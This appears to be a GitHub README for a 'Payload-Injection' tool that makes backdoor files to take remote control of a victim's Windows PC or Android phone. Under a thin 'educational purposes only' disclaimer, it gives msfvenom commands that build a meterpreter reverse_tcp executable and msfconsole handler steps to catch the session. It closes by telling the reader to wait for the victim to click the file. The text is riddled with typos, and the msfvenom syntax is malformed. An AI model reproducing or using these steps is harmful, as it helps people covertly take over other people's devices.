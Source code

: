 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of e not responsible for any damages due to improper use


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To macke something like back door and so one to completely remote a PC or android phone Just one click on the file and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …


 # [+]How to Download
open you terminal
git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su  
**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**


Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE

